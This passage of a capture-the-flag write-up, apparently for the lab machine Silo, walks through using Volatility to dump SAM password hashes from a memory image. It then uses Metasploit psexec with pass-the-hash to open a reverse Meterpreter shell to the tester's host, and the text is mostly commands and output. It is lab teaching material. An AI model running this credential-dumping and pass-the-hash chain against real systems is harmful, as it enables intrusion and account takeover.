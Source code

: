 ~~~
KPCR                          : 0xffffd000207e8000 (CPU 1)

~~~

{% endhighlight %}

We figured out the OS is "Windows server 2012 64bit".<br>
Then, take a look at the registory hive.
{% highlight shell %}
root@kali:~# volatility -f SILO-20180105-221806.dmp --profile=Win2012R2x64 hivelist
Volatility Foundation Volatility Framework 2.6
Virtual            Physical           Name
------------------ ------------------ ----
0xffffc0000100a000 0x000000000d40e000 \??\C:\Users\Administrator\AppData\Local\Microsoft\Windows\UsrClass.dat
0xffffc000011fb000 0x0000000034570000 \SystemRoot\System32\config\DRIVERS
0xffffc00001600000 0x000000003327b000 \??\C:\Windows\AppCompat\Programs\Amcache.hve
0xffffc0000001e000 0x0000000000b65000 [no name]
0xffffc00000028000 0x0000000000a70000 \REGISTRY\MACHINE\SYSTEM
0xffffc00000052000 0x000000001a25b000 \REGISTRY\MACHINE\HARDWARE
0xffffc000004de000 0x0000000024cf8000 \Device\HarddiskVolume1\Boot\BCD
0xffffc00000103000 0x000000003205d000 \SystemRoot\System32\Config\SOFTWARE
0xffffc00002c43000 0x0000000028ecb000 \SystemRoot\System32\Config\DEFAULT
0xffffc000061a3000 0x0000000027532000 \SystemRoot\System32\Config\SECURITY
0xffffc00000619000 0x0000000026cc5000 \SystemRoot\System32\Config\SAM
0xffffc0000060d000 0x0000000026c93000 \??\C:\Windows\ServiceProfiles\NetworkService\NTUSER.DAT
0xffffc000006cf000 0x000000002688f000 \SystemRoot\System32\Config\BBI
0xffffc000007e7000 0x00000000259a8000 \??\C:\Windows\ServiceProfiles\LocalService\NTUSER.DAT
0xffffc00000fed000 0x000000000d67f000 \??\C:\Users\Administrator\ntuser.dat
{% endhighlight %}

We found a some files should be confidential.<br>
To dump the hash, wehave to provide the needed addresses for SYSTEM and SAM.
{% highlight shell %}
root@kali:~# volatility -f SILO-20180105-221806.dmp --profile Win2012R2x64 hashdump -y 0xffffc00000028000 -s 0xffffc00000619000
Volatility Foundation Volatility Framework 2.6
Administrator:500:aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Phineas:1002:aad3b435b51404eeaad3b435b51404ee:8eacdd67b77749e65d3b3d5c110b0969:::
{% endhighlight %}

Since we can use Pass the Hash technique for Windows,<br>
we can achieve a SYSTEM shell with metasploit psexec module.
{% highlight shell %}
msf5 > use exploit/windows/smb/psexec
msf5 exploit(windows/smb/psexec) > set smbuser Administrator
smbuser => Administrator
msf5 exploit(windows/smb/psexec) > set smbpass aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7
smbpass => aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7
msf5 exploit(windows/smb/psexec) > set rhost 10.10.10.82
rhost => 10.10.10.82
msf5 exploit(windows/smb/psexec) > run

[*] Started reverse TCP handler on 10.10.14.13:4444 
[*] 10.10.10.82:445 - Connecting to the server...
[*] 10.10.10.82:445 - Authenticating to 10.10.10.82:445 as user 'Administrator'...
[*] 10.10.10.82:445 - Selecting PowerShell target
[*] 10.10.10.82:445 - Executing the payload...
[+] 10.10.10.82:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (180291 bytes) to 10.10.10.82
[*] Meterpreter session 1 opened (10.10.14.13:4444 -> 10.10.10.82:49175) at 2019-11-06 19:24:15 +0200

meterpreter > getuid